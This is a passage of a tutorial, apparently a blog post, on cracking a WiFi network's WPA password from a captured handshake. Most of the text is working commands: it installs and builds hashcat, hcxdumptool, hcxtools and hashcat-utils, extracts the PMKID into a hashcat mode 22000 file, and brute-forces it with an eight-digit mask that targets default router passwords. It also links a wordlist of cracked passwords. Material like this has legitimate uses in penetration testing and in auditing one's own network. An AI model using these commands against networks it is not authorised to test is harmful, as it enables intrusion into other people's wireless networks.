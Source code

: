 With the handshake files in our possession, we need to make sure our tools are installed. The below instructions are intended for use on Debian-based Linux distributions.

- Install hashcat: `sudo apt install -y hashcat`
- Build [hcxdumptool](https://github.com/ZerBea/hcxdumptool) - **not actually required, but useful to have if you're tinkering with WiFi attacks**
  ```bash
  git clone https://github.com/ZerBea/hcxdumptool.git
  cd hcxdumptool
  sudo apt install -y make gcc libpcap-dev # if not already installed
  make -j $(nproc)
  sudo make install
  ```
- Build [hcxtools](https://github.com/ZerBea/hcxtools)
  ```bash
  git clone https://github.com/ZerBea/hcxtools.git
  cd hcxtools
  sudo apt install -y openssl libssl-dev libz-dev libcurl4-openssl-dev
  make -j $(nproc)
  sudo make install
  ```
- Build [hashcat-utils](https://github.com/hashcat/hashcat-utils)
  ```bash
  git clone https://github.com/hashcat/hashcat-utils.git
  cd hashcat-utils/bin
  make
  ```

Run the following command to extract the PMKID from the PCAP and save as a hashcat mode 22000 hash file: `~/hcxtools/hcxpcapngtool -o <name>.hc22000 <PCAP FILE>`

Now, run hashcat: `hashcat -m 22000 -a3 -w3 <name>.hc22000 '?d?d?d?d?d?d?d?d'`. You may be wondering about the `?d?d?d` part - that is a [mask](https://hashcat.net/wiki/doku.php?id=mask_attack) which tells hashcat the format of the string to brute force. In our case, the mask is eight integers - this is because the default password on most consumer WAPs is a string of eight integers. If you want to instead try a wordlist, try [this one](https://wpa-sec.stanev.org/dict/cracked.txt.gz) (see [wpa-sec.stanev.org](https://wpa-sec.stanev.org) for details)

After a few minutes (depending on how fast your machine is), the password should be cracked.

